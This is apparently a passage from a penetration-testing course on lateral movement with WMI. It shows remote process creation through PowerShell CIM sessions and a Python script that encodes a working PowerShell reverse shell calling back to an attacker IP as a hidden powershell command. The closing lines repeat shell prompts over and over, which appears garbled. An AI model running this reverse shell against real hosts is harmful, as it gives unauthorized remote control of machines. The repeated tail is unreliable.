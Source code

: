 > Listing 4 - Invoking the WMI session through PowerShell

To simulate the technique, we can connect to CLIENT74 as _jeff_ and insert the above code in a PowerShell prompt. (Not all the code is shown below.)

```
PS C:\Users\jeff> $username = 'jen';
...
PS C:\Users\jeff> Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};

ProcessId ReturnValue PSComputerName
--------- ----------- --------------
     3712           0 192.168.50.73
```

> Listing 5 - Executing the WMI PowerShell payload.

Verifying the active processes on the target machine reveals that a new calculator process has been launched, confirming that our attack has succeeded.

![Figure 1: Inspecting The Task Manager](https://static.offsec.com/offsec-courses/PEN-200/imgs/ad_lat_movement/53bbc5aa681c96dbeb7a8a24331a7d39-calc.png)

Figure 1: Inspecting The Task Manager

Info

The PID of win32calc.exe is different from the PID in Listing 1 because the PID in Listing 1 belongs to calc.exe. When the wmic command in Listing 1 runs, it creates the process of calc.exe, which starts another process win32calc.exe, then calc.exe exits, leaving win32calc.exe running.

To further improve our craft, let's replace the previous payload with a full reverse shell written in PowerShell.

First, we'll encode the PowerShell reverse shell, so we don't need to escape any special characters when inserting it as a WMI payload.

The following Python code encodes the PowerShell reverse shell to base64 contained in the _payload_ variable and then prints the result to standard output.

Reviewing the entire PowerShell payload is outside the scope of this Module.

We need to replace the highlighted IP and port with the ones of our attacker Kali machine.

```
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.118.2",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)
```


[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname
